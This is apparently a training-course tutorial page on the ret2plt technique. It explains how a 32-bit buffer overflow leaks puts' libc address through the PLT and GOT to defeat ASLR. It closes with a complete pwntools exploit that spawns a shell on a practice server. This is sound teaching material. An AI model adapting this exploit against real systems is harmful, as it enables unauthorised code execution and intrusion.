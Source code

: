 ```yaml
---
description: Using the PLT and GOT tables to bypass ASLR.
---
```


# ret2plt

{% file src="../../.gitbook/assets/ret2plt.zip" %}

The `ret2plt` exploit is one of the most popular exploits for beating ASLR. This exploit involves calling `puts@plt` and passing the address of `puts@got` as an argument. This will cause `puts` to leak its own address in `libc`.

Once we have this, we can set the return address to `main` and call `system` with the address of `"/bin/sh"` as an argument.

{% hint style="danger" %}
Be sure that you've read the introduction page for ASLR. This is important for discussing the PLT and GOT tables, and the theory behind this exploit.
{% endhint %}

### Static Analysis

If we perform `checksec` on this binary:

```bash
$ checksec ret2plt
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/ret2plt/src/ret2plt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

For this challenge, we'll find that it's essential that PIE is **turned off**. This is because we will rely on knowing the absolute addresses of the PLT and GOT tables to jump to them.

We'll scan through `gdb` to check for vulnerabilities. There are two functions: `main` and `read_in`.

* `main()` does nothing more than call `read_in` and then prints _You lose!_.
* `read_in()` has a `gets()` call into `ebp-0x30`. There's nothing else useful in this function.

This isn't much to go off. We'll have to understand the ret2plt vulnerability better to exploit this binary.

### How the Exploit works

The ret2plt exploit is a bit more complicated than some of our previous ones. Recall that the PLT table is a list of stubs that point to the GOT table. The GOT table is a list of addresses that point to the actual functions in `libc`.

We said in the introduction paragraph that when we call entries in the PLT table, it's identical to calling the library function itself. Because the PLT is a compile-time construct, we know its address at compile-time. However, the GOT table is a run-time construct, so we don't know its address until the program is actually running.

When ASLR randomizes the address space, it randomizes the address of the GOT table. Therefore, if we can somehow leak one of the values inside the GOT table, we can leak the address of `libc` in memory. This is the key to beating ASLR.

The most common way to do this is to leak the address of `puts`. We do this by passing `puts@got` as an argument to `puts@plt`. This will cause `puts` to print its own address in memory. We can then use this address to calculate the base address of `libc` in memory.

{% hint style="warning" %}
#### _Why does this work?_

Recall that the GOT table connects a function call to the actual function in `libc`. We know the address of the GOT table during runtime, but we can't directly access the value that it points to.

When we pass parameters to a function, function arguments actually take **a pointer to the value**. Therefore, when we pass the GOT entry for `puts` (i.e., `puts@got`), the `puts` function will dereference that pointer and provide us with the value that that address. This value is the true address of `puts` in `libc`!
{% endhint %}

Now, we need to do this in our exploit. We'll need to pass `puts@got` to `puts@plt`. This will leak the true address of `puts` in `libc`. Since we know the offset, we'll compute the base address and beat ASLR!

### Writing the Exploit

The pwntools library helps us with this exploit. This exploit will come in two parts:

1. Performing the `ret2plt` exploit to leak the address of `puts` in `libc`, hence beating ASLR.
2. Performing a `ret2libc` exploit -- calling `system` with the address of `"/bin/sh"` as an argument to spawn a shell.

**Part 1: Leak the address of `puts` in `libc`**

To do this, we need to overflow the buffer, then call `puts@plt` using `puts@got` as an argument. If you forgot the structure of the stack frame when passing arguments in 32-bit, refer to the [_args_](../01-ret2win/args.md) challenge.

This payload will do the trick:

```python
# perform the ret2plt
payload = b'A' * 52
payload += p32(elf.plt.puts)
payload += p32(elf.sym.main)
payload += p32(elf.got.puts)
```

_Why is there a `elf.sym.main` in there?_ When we've done this in the past, we've used `0x0` as a placeholder for the return address. This time, however, the return address is important. We don't want the program to crash after we've leaked the address. By returning to `main`, we can run the program again, knowing the base `libc` address, and perform a `ret2libc` exploit.

Once we've done this, we'll send off the payload. We'll need to receive the leaked address and calculate the base address of `libc`.

```python
p.sendline(payload)
leak = u32(p.recv(4))
libc.address = leak - libc.sym.puts
log.info("LIBC leaked: " + hex(libc.address))
```

`u32` performs the opposite of `p32`. It converts a 4-byte string into an integer.

We've beaten ASLR! Now, we can perform a `ret2libc` exploit.

**Part 2: Spawn a shell**

We'll need to call `system` with the address of `"/bin/sh"` as an argument. The return address doesn't matter this time, so we can use `0x0` as a placeholder.

```python
# perform the ret2libc
payload = b'A' * 52
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))
```

Then, we send this off and ask for an interactive shell!

```python
p.sendline(payload)
p.interactive()
```

This will give a shell on the remote system! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./ret2plt')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6300)

print(p.recvline())

# perform the ret2plt
payload = b'A' * 52
payload += p32(elf.plt.puts)
payload += p32(elf.sym.main)
payload += p32(elf.got.puts)

p.sendline(payload)
leak = u32(p.recv(4))
libc.address = leak - libc.sym.puts
log.info("LIBC leaked: " + hex(libc.address))

print(p.recvline())

# perform the ret2libc
payload = b'A' * 52
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))

p.sendline(payload)
p.interactive()
```
{% endcode %}
